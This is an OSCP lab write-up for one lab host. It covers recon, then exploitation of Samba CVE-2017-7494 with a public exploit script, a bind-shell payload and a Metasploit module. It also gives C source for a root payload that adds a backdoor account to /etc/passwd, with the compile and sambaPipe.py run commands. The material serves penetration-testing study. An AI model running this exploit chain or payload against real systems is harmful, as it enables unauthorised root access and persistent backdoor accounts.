 # Susie OSCP Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -p- -sV -oA fulloscp_146 -T4 10.11.1.146``

![image](https://user-images.githubusercontent.com/123066149/232694983-90eab4ce-ea30-4a6d-b8ad-f8e9afe06711.png)

``nmap -sC -sV -oA oscp_146 -T4 10.11.1.146``

![image](https://user-images.githubusercontent.com/123066149/232695163-76739356-f0f6-420a-98cf-33bd6aff143f.png)

``nmap --script smb-enum-shares -p 445 10.11.1.146``

![image](https://user-images.githubusercontent.com/123066149/232786031-26bada56-7b99-406c-b72c-8976fe9f061c.png)

# ${{\color{purple}Initial Foothold}}\ $

``nmap --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -p445 10.11.1.146``

![image](https://user-images.githubusercontent.com/123066149/232695631-8e29419d-bf53-4f11-bec0-4cd6aa5cd75e.png)

``smbmap -H 10.11.1.146``

![image](https://user-images.githubusercontent.com/123066149/232695874-07a4235a-607d-4730-b313-5136f43e7d8a.png)

``searchsploit samba 4.5``

![image](https://user-images.githubusercontent.com/123066149/232696138-d6553032-0abf-4d2e-937b-ee5394af245b.png)

# ${{\color{purple}Exploitation}}\ $

### I used this exploit for the exploitation part :

https://github.com/opsxcq/exploit-CVE-2017-7494

![image](https://user-images.githubusercontent.com/123066149/232697136-b2ea7ad6-e702-4de9-a38d-3dc459545b96.png)

### I used this ressource for help me :

https://redteamzone.com/EternalRed/

![image](https://user-images.githubusercontent.com/123066149/232698850-ba6d7f77-73ad-4714-bc60-166966e32a65.png)

### I userd ``libbindshell-samba.so`` it's a bind shell on port 6699 :
### Susishare is the name of the share and ``/SusieShare/libbindshell-samba.so`` is a path of the .so payload
### User and pass are not important because it's no authentification share 

``python2.7 exploit.py -t 10.11.1.146 -e libbindshell-samba.so -s SusieShare -r /SusieShare/libbindshell-samba.so -u grest -p guest -P 6699``

### I don't have a shell with this methode :

![image](https://user-images.githubusercontent.com/123066149/232699367-1215ef49-253a-4687-b874-395372d75ad1.png)

### After trying different methods change the payload change the path of the executable I did not succeed to exploit it manually.
### I used metasploit and noticed that it was using an internal path :

``search samba``

``use exploit/linux/samba/is_known_pipename``

`` set RHOSTS 10.11.1.146``

``exploit``

![image](https://user-images.githubusercontent.com/123066149/232703390-5da2ceae-d84c-415c-a787-b170ce0fb0f2.png)

# ${{\color{purple}Privilege Escalation}}\ $

![image](https://user-images.githubusercontent.com/123066149/232703497-ab44b5f3-2e2c-4a5f-aef5-af4225a13910.png)

# ${{\color{purple}Manual exploitation other way}}\ $

### This ressource help me so hard !

https://lisandre.com/archives/14153

``#include <stdio.h>``

``#include <stdlib.h>``

``static void smash() __attribute__((constructor));``

``void smash() {``

   `` setresuid(0,0,0);``
   
    ``system("echo root2:$(openssl passwd PreciouS):0:0:root:/root:/bin/bash >> /etc/passwd");``
    
``}``

![image](https://user-images.githubusercontent.com/123066149/232786683-1588db5d-282f-4d93-a32d-2c1f47d28db9.png)

### Compile the payload :

``gcc -o payload.so -shared payload.c -fPIC``

``Run the exploit``

``/usr/share/doc/python3-impacket/examples/sambaPipe.py -so payload.so -no-pass -port 445 $IP``

![image](https://user-images.githubusercontent.com/123066149/232787267-f3b93d5f-73a1-4bd7-a61d-9deef345044b.png)



# ${{\color{purple}Points of Improvement}}\ $

* Test this exploit on another vulnerable target
